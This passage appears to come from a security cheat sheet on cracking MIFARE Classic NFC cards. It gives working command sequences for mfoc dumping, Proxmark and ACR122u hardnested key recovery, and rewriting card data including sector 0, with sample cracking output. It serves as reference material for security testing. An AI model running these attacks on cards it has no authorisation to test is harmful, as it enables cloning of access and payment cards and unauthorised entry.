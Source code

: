**ACR122u method**

```powershell
nfc-list
mfoc -O card.mfd # dump the memory of the tag
# Le paramètre P permet de spécifier le nombre de sondes par secteur. Par défaut, ce nombre est à 20 mais nous pouvons le passer à 500.
mfoc -P 500 -O dump_first_try.dmp
nfc-mfclassic w a key.mfd data.mfd # write data
nfc-mfclassic W a key.mfd data.mfd # write data and sector 0
```

### Hardnested attack

> One key is needed in order to use this attack

For newest MIFARE Classic and MIFARE Plus SL1

**Proxmark method**

:warning: NOTE: These hardware changes resulted in the Proxmark 3 Easy being incapable of performing several of the Proxmark's advanced features, including the Mifare Hard-Nested attacks. In other word you need a real Proxmark, not a cheap chinese copy.

```powershell
# find a default key
# res column is either equal to 1 or 0. 
# A 1 in the column means the key was valid for that sector.
hf mf chk *1 ? t


# <block number> <key A|B> <key (12 hex symbols)>
# <target block number> <target key A|B> [known target key (12 hex symbols)] [w] [s]
# w: Acquire nonces and write them to binary file nonces.bin
hf mf hardnested 0 A 8829da9daf76 4 A w

# then https://github.com/aczid/crypto1_bs
./solve_piwi 0xcafec0de.bin
./solve_piwi_bs 0xcafec0de.bin
```

**ACR122u method**

With the key n°A a0a1a2a3a4a5 for sector 0 and we want key n°A for sector 1. This method can be reused for every sectors.

```powershell
./libnfc_crypto1_crack a0a1a2a3a4a5 0 a 4 a
Found tag with uid 62ef9e5a, collecting nonces for key A of block 4 (sector 1) using known key A a0a1a2a3a4a5 for block 0 (sector 0)
Collected 2379 nonces... leftover complexity 23833993588 (~2^34.47) - initializing brute-force phase...
Starting 4 threads to test 23833993588 states using 256-way bitslicing
Cracking...  88.93%
Found key: c44e2b5e4ce3
Tested 21232975852 states
```
